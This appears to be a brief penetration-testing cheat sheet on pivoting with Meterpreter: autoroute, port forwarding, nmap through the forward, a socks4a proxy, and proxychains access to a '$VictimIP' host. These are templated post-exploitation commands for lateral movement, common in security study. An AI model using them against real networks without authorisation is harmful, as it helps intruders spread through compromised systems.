# Meterpreter

## Adding a Route

``` run autoroute -s $network/$CIDR-Subnet ```

## Display active routing table

``` run autoroute -p ```

## Adding a Port Forward

``` portfwd add -l $localport -p $remoteport -r $destinationIP ```

## Note: USE DIFFERENT PAYLOADS BETWEEN DEVICES

### Nmap-ing through portforward

``` nmap -sV -p $localport localhost ```

## Socks4 proxy server

``` use auxiliary/server/socks4a ```
### Note: Edit /etc/proxychains.conf file

```proxychains4 $program $username@$VictimIP```

### Example (SSH):
```proxychains4 ssh $username@$VictimIP```

### Example (iceweasel):
```proxychains4 iceweasel```
